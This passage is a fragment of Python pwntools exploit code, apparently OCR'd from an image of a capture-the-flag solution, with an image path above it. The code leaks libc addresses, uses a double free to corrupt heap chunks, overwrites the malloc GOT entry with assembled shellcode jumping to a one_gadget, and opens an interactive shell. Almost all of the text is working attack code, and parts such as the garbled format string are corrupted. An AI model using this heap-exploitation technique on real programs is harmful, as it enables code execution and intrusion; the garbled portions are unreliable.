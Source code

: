 ```
    one = libc.address + one_offset 
    log.info('write address is ' + hex(write_addr))
    log.info('libc address is ' + hex(libc.address))
    log.info('one_gadget is ' + hex(one))
    #to double free fake num
    p.send('n')
    for x  in xrange(49):
        malloc('AAAA')
    for y in xrange(16):
        free(0)
    free(32)
    free(30)
    free(30)
    malloc(p64(chunk_number-0x8))
    malloc('BBBB')
    malloc('CCCC')
    malloc(p64(num(-13)))
    payload = '''mov rax, `{``}`
                 jmp rax'''.format(one)
    shellcode = asm(payload)
    #change num to neg
    free(num(-5))
    #change malloc got
    malloc(shellcode)
    p.send('1')
pwn()
p.interactive()
```


